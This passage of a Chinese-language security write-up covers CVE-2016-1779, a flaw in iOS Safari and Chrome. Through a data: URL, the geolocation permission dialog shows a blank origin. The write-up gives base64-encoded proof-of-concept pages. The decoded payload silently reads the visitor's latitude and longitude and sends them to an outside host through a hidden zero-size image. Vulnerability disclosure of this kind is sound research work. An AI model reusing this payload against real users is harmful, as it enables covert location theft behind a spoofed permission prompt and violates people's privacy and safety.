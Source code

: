 例如：http://www.test.com/geo.html。运行后，浏览器会在当前页面上弹出认证对话框，对话框的UI上会显示来源：www.test.com。

### 2.3 PoC Exploit Code of CVE-2016-1779

在2.2中是触发Geolocation认证源的一个简单流程。从这个过程中，我有了以下的想法。

*   可否改变认证源。
*   如果可以改变，是否可以为空。

于是，按照这个思路，开始了我的测试之旅。在这个过程中，发现IOS下Safari和Chrome在使用`data:`来解析这段代码时，认证源头将为“`://`”

```
data:text/html;base64,PHNjcmlwdD4KZnVuY3Rpb24gc3VjY2Vzcyhwb3NpdGlvbikge30KbmF2aWdhdG9yLmdlb2xvY2F0aW9uLmdldEN1cnJlbnRQb3NpdGlvbihzdWNjZXNzKTsKPC9zY3JpcHQ+Cg==

```

safari:

![p1](http://drops.javaweb.org/uploads/images/89bac48b6f19f0d0abbb5596f774983105c98ffd.jpg)

chrome:

![p2](http://drops.javaweb.org/uploads/images/e75eebf199df8cf6825220ed943ad74c2120475e.jpg)

接下来，我进一步优化了POC，如下

```
<title>test</title>
<script>
function geo(){
window.open('http://www.google.com');
location = 'data:text/html;base64,PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ +CjxtZXRhIGNoYXJzZXQ9dXRmLTggLz4KPHRpdGxlPmdlb2xvY2F0aW9uPC90aXRsZT4KPGJvZHk+CjxzY3JpcHQ +CmZ1bmN0aW9uIHN1Y2Nlc3MocG9zaXRpb24pIHsKZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoJ3JlbW90ZScpLnNyYz0iaHR0cDovL3hpc2lnci5jb20vdGVzdC9nZW8v Z2V0LnBocD9nZW9sb2NhdGlvbj0iKyItLS0tLS0iK2VuY29kZVVSSUNvbXBvbmVudChwb3NpdGlvbi5jb29yZHMubGF0aXR1ZGUpKyIsIitlbmNvZGVVUklDb21wb25lb nQocG9zaXRpb24uY29vcmRzLmxvbmdpdHVkZSk7CiB9Cm5hdmlnYXRvci5nZW9sb2NhdGlvbi5nZXRDdXJyZW50UG9zaXRpb24oc3VjY2Vzcyk7Cjwvc2NyaXB0Pgo8aW 1nIGlkPSJyZW1vdGUiIHNyYz0iIiB3aWR0aD0wIGhlaWdodD0wPgo8L2JvZHk+CjwvaHRtbD4=';
}

</script>

<button onclick='geo()'>Click Me</button>

```

Base64 decode：

```
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset=utf-8 />
<title>geolocation</title>
<body>
<script>
function success(position) {
document.getElementById('remote').src="http://xisigr.com/test/geo/get.php?geolocation="+"------"+encodeURIComponent(position.coords.latitude)+","+encodeURIComponent(position.coords.longitude);
}
navigator.geolocation.getCurrentPosition(success);
</script>
<img id="remote" src="" width=0 height=0>
</body>
</html>

```
